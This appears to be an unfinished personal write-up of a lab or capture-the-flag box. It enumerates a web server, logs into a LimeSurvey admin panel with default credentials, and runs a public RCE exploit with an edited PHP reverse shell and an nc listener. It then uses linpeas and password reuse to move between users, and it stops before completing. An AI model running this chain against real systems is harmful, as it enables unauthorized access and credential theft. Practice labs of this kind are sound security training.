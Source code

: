 ![](../attachment/99321425dc1ea63c736aa202aa6bc20a.png)

Running feroxbuster we discover /old/:
```
feroxbuster -u http://192.168.182.225/ -C 404,400 -A --wordlist '/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt' -B --auto-tune
```
![](../attachment/4e5e2a422071822380142cbd55e0010a.png)

Now to check the difference:
```
curl http://marketing.pg/old/ > old.txt
curl http://marketing.pg/ > new.txt
diff old.txt new.txt
```
![](../attachment/f0b91c6fafc9e71290a705e5099857ed.png)
This seems new.

![](../attachment/0249a80ca288a6c21384b93f6027f1c2.png)
Adding to /etc/hosts

http://customers-survey.marketing.pg/:
![](../attachment/95faa5b2aceb36b7c53d52e6c227a97d.png)

At /admin:
![](../attachment/dd923f7a2466af873bf3b078643e27eb.png)
We can try `admin:password`

Now we are logged in:
![](../attachment/8589b25afa1231c0fdc61cf4a2f114e4.png)


Using this [exploit](https://github.com/Y1LD1R1M-1337/Limesurvey-RCE):
```
git clone https://github.com/Y1LD1R1M-1337/Limesurvey-RCE.git
cd Limesurvey-RCE
```
![](../attachment/63c794dd66f148637875b6da810f51b8.png)

Now editing php-rev.php:
![](../attachment/cd655dda4541440b6cbd4c7e9e254b9e.png)

We can zip this now:
```
zip Y1LD1R1M.zip config.xml php-rev.php
```
Now we can change the path at exploit.py:
![](../attachment/509fe0798cf41715f9f95b460c41574f.png)

Now we can run it after running listener:
```
sudo rlwrap nc -nlvp 80
```
```
python3 exploit.py http://customers-survey.marketing.pg/ admin password 80
```

We get a shell:
![](../attachment/a50a221c3fb2853f68e612d77d199152.png)

Running linpeas:
![](../attachment/0c1449e9d64768e13470547154edb0ec.png)
We discover a password.

Using this password on both users in `/home`:
![](../attachment/4fd4ad726d589d1252ff2074cc92f3da.png)
![](../attachment/6585e01a29fe8b8d568e69af179083eb.png)

We are t.miller now.

Running `sudo -l`:
![](../attachment/0967cf5a3d466c1b3cdc4e70b16a779d.png)
![](../attachment/0e639c7c28bda4fda82efb01169c81cc.png) 

Checking id:
![](../attachment/0a936ba9553cd1a64d41552cfac6d145.png)
We are in mlocate group

Now we can find files owned by group mlocate:
```
find / -group mlocate 2>/dev/null
```
![](../attachment/8497105d8d3295c30c66cd545cb50827.png)
![](../attachment/fcc1e707b9532bf211776d2002859b80.png)
We find a file called creds-for-2022.txt


Ughhhh didnt work will try later
